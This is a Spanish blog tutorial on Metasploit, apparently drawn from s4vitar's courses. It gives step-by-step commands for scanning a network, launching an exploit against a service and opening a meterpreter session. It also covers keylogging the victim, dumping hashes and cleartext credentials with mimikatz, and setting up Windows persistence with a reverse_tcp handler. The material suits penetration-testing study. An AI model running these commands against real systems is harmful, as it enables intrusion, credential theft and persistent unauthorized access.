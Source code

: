 ```yaml
---
title: Metasploit
date: 2023-09-20
categories: [Linux, Cajón de Herramientas]
tags: [Metaexploit]
image:
  path: ../../assets/img/Linux/CajonHerramientas/metasploit.jpg
  width: 528
  height: 340
  alt: Banner Metasploit
---
```


Agradecimientos a Marcelo Vázquez conocido también como s4vitar. Parte de los conocimientos los he recogido de sus videos y de la academia.

## ¿Qué puede hacer?

Metasploit es una herramienta muy poderosa que permite explotar las vulnerabilidades de seguridad de los sistemas informáticos.

Con metaexploit puedes hacer de todo:  
+ Escanear y recopilar información sobre una máquina de destino.
+ Detectar y explotar vulnerabilidades.
+ Aumentar los privilegios de un sistema operativo.
+ Instalar una puerta trasera para mantener el acceso persistente.
+ Utilizar la técnica "Fuzzing" para probar la solidez del software.

## Ejemplo de uso 

En el post de buffer overflow vimos como explotar esta vulnerabilidad manualmente. Esta vez veremos como hacerlo con metaexploit.

Abrimos metaexploit, se puede de dos formas:
```sh
> msfdb run #Si es la primera vez tendrás que hacerlo si o si de esta manera.

> msfconsole
```
> La ruta donde se aloja metaexploit suele ser /usr/share/metaexploit-framework/

Dentro de metaexploit podemos asignarnos un espacio de trabajo, ayuda a trabajar de manera más organizada, en ese espacio de trabajo se guardarían las variables(puertos y hosts) que guardes despúes.
```sh
> workspace # Para listar los espacios de trabajo. Nos saldrá el espacio de trabajo "default"

# Para añadir un nuevo espacio de trabajo:
> workspace -a espacioGuille1
# Ahora tendremos dos.

> workspace espacioGuille1 # Cambiaríamos de espacio de trabajo.
```
Ejemplo de uso:
```sh
> search arp # Nos encontrará varios modulos que contengan arp.
# Una vez elegido cual utilizar, por ejemplo; /auxiliary/scanner/discovery/arp_sweep
> use /auxiliary/scanner/discovery/arp_sweep # Nos metemos en el marco del exploit. 

> show options # listar opciones. En la columna Required saldrán los requeridos.

> info # Para buscar algo más de información sobre lo que hace el exploit.

> set RHOSTS 192.168.1.0/24 # Establecemos algunas de las variables requeridas. En el caso /24 porque lo haremos a la red.
> run # Ejecutamos el exploit. Es lo mismo que hacer arp-scan -I ens33 --localnet. Nos saldrían los host de la red.

> hosts # Nos listaría de manera más organizada el resultado anterior de los hosts.
```
Puedes lanzar un nmap tambíen de los puertos más comunes desde metaexploit:
```sh
> db_nmap 192.168.1.5
```
Ahora, al igual que tienes el comando `searchsploit` para buscar vulnerabilidades en exploitdb, aquí tenemos el comando `search`.
```sh
> search slmail # Buscaremos vulnerabilidades asociadas al servicio slmail.

> use NAME_EXPLOIT  # Entramos en el marco del exploit.
```
> Si la columna check estuviera en "yes" podríamos lanzar un checker para comprobar si es vulnerable antes de lanzar el exploit. El comando es check.

```sh
> show options

> set RHOSTS 192.168.1.5 # Estableceriamos con set las variables requeridas.
```
Para mucho exploits aparte del exploit en sí hay que lanzarle un payload que dependerá de la máquina objetivo( si es linux o windows). Además con `show targets` podemos elegir que sistema operativo específico es:
```sh
> show targets # Muestra sistemas operativos disponibles como objetivo para ese exploit
> set target 2 # Por ejemplo, para elegir el número dos que te listara.
```
Respecto a los payloads te suele poner por defecto uno, pero para ver todos y elegir cual quieres:
```sh
> show payloads # Desde fuera de metaexploit es lo mismo que hacer msfvenom -l payloads
> set payload NOMBRE_PAYLOAD
```
> Meterpreter es un listener dentro de metaexploit. Como si fuera un netcat típico que conocemos pero en metaexploit.

Gracias al meterpreter ya no hace falta ponerse en escucha en una ventana aparte con nc. Vamos a ejecutar el exploit:
```sh
> exploit 
# Te pondría meterpreter session 1 opened. Ya estaríamos dentro de la máquina objetivo.
```
Una vez dentro hay comandos propios de meterpreter. Si hacemos un `help` los podemos ver, podríamos hacer una captura de pantalla, ver en tiempo real, bloquear el teclado de la víctima, etc. En máquinas virtuales algunos de estos comandos no funcionan.  
También hay otro comando para añadir un **keylogger**!.
```sh
> keyscan_start 
# Ahora estaríamos capturando lo que escribe en el teclado -keylogger-.
> keyscan_dump # Para recoger y visualizar esa info.

> hashdump # Para dumpear los hashes.

> load kiwi # Para cargar el mimikatz y después listar credenciales de la memoria. En este caso saldrían en texto claro.
> creds_all # Para obtener las credenciales de lo que pille.
```
Con `load -l` podemos ver las opciones que podemos cargar:
```sh
> load -l
```
Para tener una consola interactiva utilzamos el comando `shell` aunque la máquina víctima fuera una windows. Se podría usar `poweshell` para lo mismo:
```sh
> shell # También funciona para una Windows!!.

> powershell # o también powershell_shell
```
Puedes dejar la **sesión en segundo plano** así:
```sh
> background # La dejas en segundo plano.
> sessions # Verías las sesiones que tienes.
```
Hablemos de la **persitencia** es decir, garantizar que yo tenga acceso a la máquina en el fúturo. Fuera de la sesión, dejandola en segundo plano, podemos buscar por persistence:
```sh
> search persistence
> search persistence platform:"windows" # Para una búsqueda más específica.

> use exploit/windows/local/persistence_image_exec_options # por ejemplo. Entramos en el marco del exploit.
> show options
# una de las opciones que saldrán ese SESSION, setearemos la que teníamos en segundo plano.
> set SESSION 1 # Como LHOST y LPORT mi ip y puerto que quiera.
> run # Accedes de nuevo a la máquina y te crea una forma de ingresar de nuevo aunque salieras de la sesión, ya no segundo plano, si no saliendo.  
# Cada X tiempo te mandaría una consola, como una tarea cron. Así funciona la persistencia realmente.
> exit # para salir de la sesión.
> exit -y # para salir del metaexploit.

# Ahora podría volver a entrar:
> msfdb run

> use exploit/multi/handler # Nos creamos un listener -sesión de escucha-.
> show options
# veremos que requiere un payload, lo cargamos:
> set payload windows/meterpreter/reverse_tcp
> set LHOST MIIP # El puerto que coincida con el de la persistencia.

# Si hago un sessions no tendremos ya ninguna sesión activa peeero:
> sessions # No veremos nada.
> run # Hemos logrado acceso al sistema de nuevo.
```

Y hasta aquí lo aprendido de Metaexploit. Vuelvo a agradecer las clases de s4vitar y su academia. Si queréis saber más os dejo por aquí el enlace a su academia; [hack4u](https://hack4u.io/).
